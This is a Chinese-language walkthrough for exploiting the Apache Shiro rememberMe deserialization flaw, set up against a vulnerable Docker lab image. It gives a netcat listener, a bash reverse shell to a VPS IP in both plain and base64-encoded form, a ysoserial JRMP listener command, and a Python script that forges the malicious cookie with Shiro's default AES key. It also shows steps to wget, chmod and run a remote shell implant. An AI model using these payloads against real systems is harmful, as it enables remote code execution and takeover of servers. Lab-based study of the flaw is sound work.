


# shiro 反序列化


### 获取环境:
**拉取镜像到本地**
```
$ docker pull medicean/vulapps:s_shiro_1
```
**启动环境**
```
$ docker run -d -p 80:8080 medicean/vulapps:s_shiro_1
```
-p 80:8080 前面的 80 代表物理机的端口，可随意指定。

**使用与利用**

访问 http://你的 IP 地址:端口号/


**反弹shell**

1. 监听VPS端口

```
yun install nc
nc –lvp 1234
```

2. 使用 jackson 配合bash编码
地址：
http://www.jackson-t.ca/runtime-exec-payloads.html

得到编码后的结果：
```
bash -I >& /dev/tcp 45.77.205.238/1234 0>&1  # ip为vps ip
```

```bash
bash -c {echo,YmFzaCAtSSA+JiAvZGV2L3RjcCA0NS43Ny4yMDUuMjM4LzEyMzQgMD4mMQ==}|{base64,-d}|{bash,-i}
```


3. 通过ysoserial中JRMP监听模块，监听6666端口并执行反弹shell命令。

```
java -cp ysoserial-master-SNAPSHOT.jar ysoserial.exploit.JRMPListener 6666 CommonsCollections4 "bash -c {echo,YmFzaCAtSSA+JiAvZGV2L3RjcCA0NS43Ny4yMDUuMjM4LzEyMzQgMD4mMQ==}|{base64,-d}|{bash,-i}"
```


4. 使用shiro.py生成payload
```
python shiro.py 45.77.205.238:6666   # ip为vps ip
```

代码如下 python版本为2.7：
```py
import sys
import uuid
import base64
import subprocess
from Crypto.Cipher import AES
def encode_rememberme(command):
     popen = subprocess.Popen(['java', '-jar', 'ysoserial-master-SNAPSHOT.jar', 'JRMPClient', command], stdout=subprocess.PIPE)
     BS = AES.block_size
     pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
     key = base64.b64decode("kPH+bIxk5D2deZiIxcaaaA==")
     iv = uuid.uuid4().bytes
     encryptor = AES.new(key, AES.MODE_CBC, iv)
     file_body = pad(popen.stdout.read())
     base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
     return base64_ciphertext
if __name__ == '__main__':
     payload = encode_rememberme(sys.argv[1])
print "rememberMe={0}".format(payload.decode())

```
> from Crypto.Cipher import AES 安装不上这个包的解决方法

```
pip install pycryptodome
```


等回弹即可


## 使用web服务器

自建个服务器，写个shell的马，上传到服务器，开监听，不停的生成cookie发包即可。

```bash
yum install wget/apt install wget
wget http://xxxxxxx/xxx.xxx 马的位置
chmod 777 马
./xxx.xxx
```

